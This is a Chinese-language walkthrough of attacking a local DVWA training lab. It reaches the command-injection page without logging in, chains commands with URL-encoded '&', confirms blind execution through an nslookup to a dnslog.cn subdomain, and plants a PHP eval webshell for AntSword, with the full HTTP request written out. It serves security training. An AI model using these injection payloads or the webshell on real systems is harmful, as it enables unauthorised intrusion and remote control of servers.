

**利用失效的访问控制漏洞执行命令注入**

先在正常登录的情况下，`BurpSuite`抓取`Command Injection`关卡的`Low级别`


---

然后点击`Logout`退出登录

==实现在不登录DVWA靶场的情况下访问靶场里面` Command Injection`关卡的`Low级别`==

路径：`vulnerabilities\exec\source`


浏览器访问`low.php`


通过访问`http://192.168.80.139/DVWA-2.0.1/vulnerabilities/exec/source/low.php`

得到如下界面，做一个命令执行


`BurpSuite`抓取数据包，发送到`Repeater`模块


改变数据包的请求方式，在源码中可以得知是通过`POST`方式提交的


添加请求体内容：`ip=127.0.0.1&Submit=Submit`     

使用`&`实现命令拼接，做命令注入

`&`需要做URL编码，防止跟连接`Submit`的`&`发生冲突

`BurpSuite`中选中`&`，按`Ctrl+u`，即可实现`uRL编码`


发现使用`whoami`命令并**没有回显**

然后使用`calc`尝试调出计算器





命令执行成功！

==说明页面没有回显并不能代表命令执行没有成功==

可以利用[dnslog平台](http://dnslog.cn/)测试命令是否执行成功


然后使用`nslookup`进行域名 解析：`ip=127.0.0.1%26nslookup+hv1co0.dnslog.cn&Submit=Submit`

点击`Send`发送，来到`dnslog平台`，点击`Refresh Record`刷新记录


解析到了，说明命令执行成功

---

**利用失效的访问控制漏洞写一个webshell，尝试蚁剑连接**

`echo "<?php @eval($_REQUEST[6868])?>" >shell.php` 按`Ctrl+u`做url编码

得到`echo+"<%3fphp+%40eval($_REQUEST[6868])%3f>"+>shell.php`

```python
POST /DVWA-2.0.1/vulnerabilities/exec/source/low.php HTTP/1.1
Host: 192.168.80.139
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 86

ip=127.0.0.1%26echo+"<%3fphp+%40eval($_REQUEST[6868])%3f>"+>shell.php&Submit=Submit
```

访问`http://192.168.80.139/DVWA-2.0.1/vulnerabilities/exec/source/`查看是否成功


访问`shell.php`


蚁剑 连接

`http://192.168.80.139/DVWA-2.0.1/vulnerabilities/exec/source/shell.php`


